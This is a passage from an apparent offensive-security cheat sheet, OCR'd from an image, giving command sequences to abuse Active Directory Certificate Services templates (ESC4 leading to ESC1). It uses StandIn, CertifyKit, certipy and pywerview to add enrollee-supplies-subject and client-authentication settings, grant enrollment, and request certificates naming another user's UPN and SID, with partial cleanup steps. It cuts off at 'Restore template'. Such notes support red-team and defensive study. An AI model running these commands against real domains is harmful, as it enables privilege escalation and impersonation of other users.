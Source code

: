 ````
### Configure ESC1 client authentication
#### Add ENROLEE_SUPPLIES_SUBJECT
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --ess --add
```

#### Add Enrollment
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --ntaccount "<DOMAIN>\<USERS>" --enroll --add
```

#### Add client authentication EKU
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME> --clientauth --add
```

#### Abuse same as ESC1 for Windows/Linux
- [ESC1 Link](#ESC1-Request-SAN-of-other-user)

#### Cleanup
```
## Remove Enrollment rights for cb\certstore
C:\ADCS\Tools> C:\ADCS\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter <TEMPLATE NAME> --ntaccount <DOMAIN>\<USER> --enroll --remove

## Remove ENROLLEE_SUPPLIES_SUBJECT
C:\ADCS\Tools> C:\ADCS\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter <TEMPLATE NAME> --ess --remove
```

#### Configure SmartCardLogon and request certs
-  `/alter` module alters the target template with SmartCardLogon and requests a new certificate for an alternate name and restores the template
```
.\CertifyKit.exe request /ca:<FQDC CA>\<CA NAME> /template:<TEMPLATE NAME> /altname:<USER> /domain:<FQDN DOMAIN> /alter /sidextension:<TARGET OBJECT SID>
```

### Linux
#### Enumerate ACLs
```
certipy find -u <USER> -p <PASSWORD> -stdout
```

### Configure ESC1
- Possible to use https://github.com/fortalice/modifyCertTemplate for more controls

#### Abuse and save template
```
certipy template -u <USER>@<FQDN> -hashes <NTLM HASH> -template <TEMPLATE NAME> -save-old
```

#### Get domain user SID
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Request cert
```
certipy req -u <USER> -hashes <NTLM HASH> -ca <CA NAME> -target <FQDN CA> -template <TEMPLATE NAME> -upn <USER>@<FQDN DOMAIN> -extensionsid <USER SID> -out 'esc4-certipy' -debug
```

#### Restore template
```
````